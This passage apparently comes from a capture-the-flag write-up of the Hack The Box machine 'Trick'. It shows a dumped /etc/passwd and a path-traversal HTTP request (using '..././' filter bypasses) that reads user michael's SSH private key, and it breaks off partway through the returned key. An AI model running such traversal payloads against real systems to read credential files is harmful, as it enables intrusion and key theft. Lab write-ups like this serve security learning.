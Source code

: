 ```
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:112:121::/var/lib/saned:/usr/sbin/nologin
colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:118:65534::/run/sshd:/usr/sbin/nologin
postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin
bind:x:120:128::/var/cache/bind:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash
```
The above file is important because it provides username for normal which will  give us a shell. Username is `michael` 
#### id_rsa
**Request**
```
GET /index.php?page=..././..././..././home/michael/.ssh/id_rsa HTTP/1.1
Host: preprod-marketing.trick.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
**Response**
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
```